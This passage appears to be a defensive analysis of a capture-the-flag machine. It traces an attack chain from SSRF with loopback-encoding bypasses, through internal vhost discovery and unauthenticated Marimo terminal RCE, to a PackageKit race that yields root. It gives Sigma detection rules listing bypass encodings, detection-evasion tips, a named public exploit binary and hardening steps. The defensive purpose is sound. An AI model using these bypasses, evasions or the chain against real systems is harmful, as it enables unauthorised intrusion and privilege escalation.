  * Internal vhosts have no additional network-layer isolation beyond "security by obscure hostname"
  * Marimo notebook service running a pre-0.23.0, pre-patch version
  * PackageKit present, D-Bus accessible to the shell user, `dpkg-deb` available, patch level vulnerable to CVE-2026-41651


### Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:**
  Attackers will abuse a public-facing "fetch a URL" style feature to pivot into internal network segments, harvest internal service topology from a reverse proxy's own diagnostics, and chain an internal analyst/dev tool's unauthenticated RCE with a system-daemon race condition to escalate from anonymous web access to root.

* **Behavioral Outliers:**

  * Outbound requests from the web/portal service to loopback and loopback-equivalent addresses (`127.1`, `2130706433`, `0x7f000001`, etc.).
  * Repeated server-side fetches targeting non-standard internal ports (5000, 8888) in a short window.
  * External-origin requests reaching nginx's `/status` (or any status/debug) endpoint.
  * Inbound requests presenting a `Host` header for an internal-only vhost (`nb-*.cohort.htb`) from outside the expected internal network path.
  * New WebSocket connections to `/terminal/ws` with no prior authenticated session.
  * Shell/process spawn events originating from the Marimo service account immediately following a WebSocket connection.
  * A process (`exploit.bin`/similar) rapidly issuing duplicate PackageKit `InstallFiles` D-Bus calls against the same transaction ID.
  * Creation of a new SUID-bit binary in `/tmp` (or any world-writable directory) shortly after PackageKit activity.

* **Toxic Combinations:**

  * Public URL-fetch feature + blocklist-only SSRF filtering
  * SSRF reachability + an internal status/debug endpoint that reveals topology
  * Host-header-routed "internal-only" services + no network-layer segmentation
  * Outdated notebook/dev-tool RCE + direct D-Bus/PackageKit access from the resulting shell
  * Unattended/root-privileged package-management daemon + non-atomic multi-step transaction API


### Detection Engineering

* **Telemetry Gap Analysis:**
  Effective detection requires correlation across:

- Web/application logs on the SSRF sink (`portal.html` fetch feature) - destination IP/host of server-side requests
- nginx access logs - requests to `/status` and any diagnostic paths, plus `Host` header values seen
- WebSocket connection logs for Marimo (`/terminal/ws`) - presence/absence of an auth token or session cookie
- Process execution telemetry on the notebook host (auditd / EDR) - shell spawned by the Marimo service account
- D-Bus / PackageKit transaction logs (`journalctl -u packagekit`) - duplicate `InstallFiles` calls on one transaction ID in a tight time window
- Filesystem integrity monitoring on `/tmp` and other world-writable paths - new SUID-bit files

Critical Log Sources / Event Equivalents (Linux):

* **nginx access/error log** -> requests to `/status`, unexpected `Host` headers, high-frequency requests from the portal's own backend IP to loopback-family addresses
* **auditd `execve` events** -> shell/process spawned by the `marimo` service account
* **`journalctl -u packagekit` / D-Bus monitor** -> duplicate/overlapping `InstallFiles` transactions
* **auditd file-create/`chmod` events** -> new SUID binaries appearing outside package-manager-owned paths
* **App-layer SSRF logging** -> outbound URL parameter values containing decimal/hex/short-form IP encodings


#### Detection-as-Code

```yaml
# Sigma-style rule: SSRF via loopback-encoding bypass on the portal fetch feature
title: Possible SSRF Loopback Filter Bypass
logsource:
  category: webserver
detection:
  selection:
    cs-uri-query|contains:
      - '127.1'
      - '2130706433'
      - '0x7f000001'
      - '0x7f.1'
  condition: selection
level: high
```

```yaml
# Sigma-style rule: external request to internal nginx status/diagnostic endpoint
title: External Access to nginx Status Endpoint
logsource:
  category: webserver
detection:
  selection:
    cs-uri-stem|endswith: '/status'
  filter:
    c-ip|startswith: '127.'
  condition: selection and not filter
level: medium
```

```bash
# Detect duplicate/overlapping PackageKit InstallFiles calls (possible TOCTOU race attempt)
journalctl -u packagekit --since "-10min" -o json \
  | jq -r 'select(.MESSAGE | test("InstallFiles"))' \
  | awk '{ print $0 }' \
  # Flag when 2+ InstallFiles calls reference the same transaction path within <2s
```

```bash
# Detect newly-created SUID binaries outside dpkg-owned paths (post-exploitation indicator)
find / -perm -4000 -type f -newermt "-15 min" 2>/dev/null \
  | while read -r f; do dpkg -S "$f" >/dev/null 2>&1 || echo "UNOWNED SUID: $f"; done
```


### Resilience Test

Attackers may bypass detection by:

* Using **less common IP encodings** for the loopback filter bypass (mixed decimal/octal octets, IPv6 `::1`/`::ffff:127.0.0.1`, DNS rebinding to `127.0.0.1`) if only a static blocklist of known bypasses is deployed.
* Querying internal endpoints **slowly and with jitter** to avoid frequency-based SSRF detection.
* Reaching Marimo's `/terminal/ws` **directly through the SSRF proxy itself** rather than a direct client connection, hiding the true source in logs.
* Timing the PackageKit **race window precisely** to minimize the number of duplicate `InstallFiles` calls needed, reducing log volume.
* Naming the dropped SUID binary to **mimic a legitimate system file** rather than an obviously suspicious path like `/tmp/.suid_bash`.

**Countermeasures:**

* Canonicalize/normalize all SSRF-fetch inputs to a single IP representation before applying an allowlist (never a blocklist) of permitted destinations.
* Remove or strictly authenticate diagnostic/status endpoints (`/status`, `/debug`, `/metrics`) - never expose upstream topology to unauthenticated callers.
* Enforce network-layer segmentation for "internal-only" services in addition to Host-header routing - vhost obscurity is not access control.
* Patch Marimo (and any notebook/dev-tool with a terminal feature) to a version enforcing authentication on WebSocket terminal endpoints; disable such endpoints entirely where not required.
* Patch PackageKit to a version with atomic transaction handling; alternatively restrict D-Bus access to `org.freedesktop.PackageKit` from unprivileged/service accounts via polkit rules.
* Monitor and alert on any new SUID-bit file creation outside of package-manager-managed installs.


### Toolkit & Implementation

* **Automation:**

  * `Burp Suite` / `mitmproxy` (intercept and manipulate the SSRF-triggering request)
  * Custom `websocket-client` Python script (unauthenticated `/terminal/ws` interaction)
  * `curl` (internal port/service probing via the SSRF sink, staged payload retrieval)
  * `Pack2TheRoot` exploit binary (`shibaaa204/Pack2TheRoot`) for CVE-2026-41651
  * `python -m http.server` (payload staging/delivery)

* **OPSEC Analysis:**

  * All internal reconnaissance is proxied through the victim's own SSRF sink, so internal-service logs show the *portal server* as the source, not the attacker's IP.
  * The Host-header pivot to the internal vhost blends in with legitimate internal traffic patterns once the hostname is known.
  * The `/terminal/ws` RCE requires no authentication artifacts (tokens, cookies) to plant, leaving a thinner audit trail than credentialed access.
  * The PackageKit race condition leaves only D-Bus/transaction logs as evidence; the resulting SUID binary is the most persistent and detectable artifact if not cleaned up.


### Defensive Mechanism

#### Technical Hardening

1. **Fix SSRF Input Validation**

   * Canonicalize all user-supplied URLs/hosts to a single normalized form before filtering.
   * Replace blocklists with a strict allowlist of permitted destination hosts/CIDRs.
   * Block requests to RFC1918/loopback/link-local ranges by default at the egress/network layer, not just in application code.

2. **Remove/Restrict Internal Diagnostic Endpoints**

   * Require authentication (or remove entirely in production) for any `/status`, `/health`, `/debug` endpoint that reveals upstream topology.
   * Strip sensitive fields (internal hostnames, backend IPs) from any status payload that must remain public.

3. **Enforce Real Network Segmentation for "Internal-Only" Services**

   * Bind internal-only services to a private interface/network namespace, not just rely on Host-header routing at the shared reverse proxy.
   * Apply firewall rules so internal vhosts are unreachable even if the hostname/Host-header is known, unless the request originates from an authorized segment.

4. **Patch and Harden Marimo (or any notebook/dev tool)**

   * Upgrade to a patched version (≥0.23.0) that enforces authentication on `/terminal/ws`.
   * Disable terminal/RCE-capable features entirely on any instance not actively needed for that purpose.

5. **Patch PackageKit and Restrict D-Bus Privileges**

   * Upgrade PackageKit to a version that closes the TOCTOU window in transaction handling (fixes CVE-2026-41651).
   * Apply polkit rules to restrict which local users/services may invoke `InstallFiles` and related privileged PackageKit methods.

6. **Monitor for Post-Exploitation Artifacts**

   * Continuously monitor for new SUID-bit files outside package-manager-owned paths.
   * Alert on unexpected child processes spawned by notebook/analyst-tool service accounts.


### QUICK-ACTION PLAYBOOK

| Step | Objective                              | Command / Logic                                                                                       |
| :---: | :---------------------------------------------- | :---------------------------------------------------------------- |
|  01  | Audit SSRF Fetch Feature Inputs         | Review portal fetch-endpoint logs for loopback-family IP encodings in request parameters                |
|  02  | Detect Internal Status Endpoint Abuse   | `grep '/status' /var/log/nginx/access.log \| grep -v '^127\.'`                                          |
|  03  | Hunt Unauthenticated Marimo Connections | Review Marimo access logs for `/terminal/ws` connections lacking a valid session/auth header             |
|  04  | Check PackageKit Transaction Integrity  | `journalctl -u packagekit --since "-1h" \| grep -i InstallFiles`                                        |
|  05  | Identify Unowned SUID Binaries          | `find / -perm -4000 -type f 2>/dev/null \| xargs -I{} sh -c 'dpkg -S {} >/dev/null 2>&1 \|\| echo {}'`  |